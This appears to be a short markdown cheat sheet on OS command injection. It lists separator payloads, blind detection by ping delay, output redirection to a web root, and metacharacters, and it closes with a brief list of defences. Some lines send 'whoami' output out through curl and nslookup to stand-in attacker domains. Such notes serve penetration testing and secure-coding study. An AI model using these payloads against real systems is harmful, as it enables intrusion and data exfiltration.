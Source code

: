 ## Command injection
- ``` & echo qwerty & ```
  - Placing & after the injected command is generally useful because it separates the injected command from whatever follows the injection point

## Blind OS command
- ### Detection
  - ``` & ping -c 10 127.0.0.1 & ```
    - 10 sec... time delay
- ### Exploit
  1)
      - Redirecting output -> (you must have write permission)
      - ``` & whoami > /var/www/static/whoami.txt & ```
      - ``` curl https://website.com/whoami.txt ```
  2)
      - Out-of-band techniques
      - ``` & curl `whoami`.webserver-attacker.com & ``` (HTTP traffic may be blocked)
      - `& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`

## Bypass restriction
- There are so many ways ...
  - https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

## Metacharacters
- Windows & Unix
  - &
  - &&
  - |
  - ||
- Unix
  - ;
- Unix inline execution 
  - \`command\`
  - $(command)

## Defences
- Whitelist of permitted values
- Validating that the input is a number
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace
- Never attempt to sanitize input by escaping shell metacharacters
